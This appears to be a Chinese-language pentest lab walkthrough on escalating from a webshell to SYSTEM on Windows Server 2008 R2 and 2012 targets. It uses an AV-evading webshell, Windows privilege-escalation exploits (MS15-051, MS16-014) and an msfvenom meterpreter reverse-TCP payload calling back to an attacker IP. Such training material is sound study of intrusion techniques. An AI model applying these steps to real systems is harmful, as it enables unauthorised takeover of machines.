 # 2008系统提权



靶机系统为 Windows 2008 r2

直接上传 as免杀马

Base64编码链接

 

![img](系统提权/wps1.jpg) 

 

Systeminfo

查看系统信息

![img](系统提权\wps2.jpg) 

Whoami查看 权限为web

![img](系统提权\wps3.jpg) 

用as上传cve提权执行文件，cmd命令行dir查看

 

运行程序的时候，后面直接接命令，具体可以自己查看脚本文件

 

![img](系统提权\wps4.jpg) 

![img](系统提权\wps5.jpg) 

#ms15-051

![image-20210825170900844](系统提权\image-20210825170900844.png)





#MS16_014

kali打开终端，生成木马 .exe

msfvenom -p windosw/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=4444 -f exe -o sf.exe

![image-20210825203414138](系统提权\image-20210825203414138.png)

用蚁剑上传木马.exe

![image-20210825203501739](系统提权\image-20210825203501739.png)

![image-20210825210550936](系统提权\image-20210825210550936.png)

![](系统提权\image-20210825210754213.png)

查看设置 options

设置payload 

设置lhost  0.0.0.0   监听所有端口 

设置lport			

运行 攻击模块  exploit -j-z 

![image-20210825211122939](系统提权\image-20210825211122939.png)

蚁剑在上传木马的文件夹下运行终端   执行木马文件，收到会话

![image-20210825211909905](系统提权\image-20210825211909905.png)

bg  设置为背景，

![image-20210825212033837](系统提权\image-20210825212033837.png)

下面准备提权，search ms16_14

![image-20210825212223963](系统提权\image-20210825212223963.png)

use  0  按 id为0的设置

设置payload 与上面监听的payload的一致，查看配置options

![image-20210825212944844](系统提权\image-20210825212944844.png)

设置会话1  设置 lhost  ，设置 端口 区别于上面的监听端口 ，run  开始提权

![image-20210825213018841](系统提权\image-20210825213018841.png)

sessions 查看  使用会话2  getuid  ，已经提升权限为system





2012

![image-20210825221141064](系统提权\image-20210825221141064.png)

同上，蚁剑上传msf马，打开监听端口后，蚁剑运行msf马，反弹shell成功，

getuid

sysinfo

#MS16_075

![image-20210825222341524](系统提权\image-20210825222341524.png)

![image-20210825222406780](系统提权\image-20210825222406780.png)

![image-20210825222627810](系统提权\image-20210825222627810.png)

![image-20210825222650572](系统提权\image-20210825222650572.png)

#MS16_032

![image-20210825223512052](系统提权\image-20210825223512052.png)

